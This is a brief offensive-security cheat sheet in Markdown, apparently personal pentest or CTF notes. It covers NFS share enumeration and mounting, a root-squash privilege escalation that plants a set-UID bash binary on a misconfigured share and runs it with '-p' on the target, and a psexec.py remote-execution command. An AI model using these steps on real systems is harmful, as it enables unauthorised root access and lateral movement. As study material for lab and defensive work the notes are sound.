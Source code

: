 # NFS
- install `**nfs-common**`
- default port: `2049`
- show shares: `sudo showmount -e <IP>`
- mount share `sudo mount -t nfs IP:share /tmp/mount/ -nolock`
## Root-squash
Misconfigured NFS shares will allow ownership to be persisted through transfer --> abuse using Set UID bash binary (for example)
- `sudo chmod +s /path/to/bash`
- `cp /path/to/bash /tmp/mount`
- on target: `./bash -p`

# PSexec
`psexec.py user:'passwd'@1.1.1.1`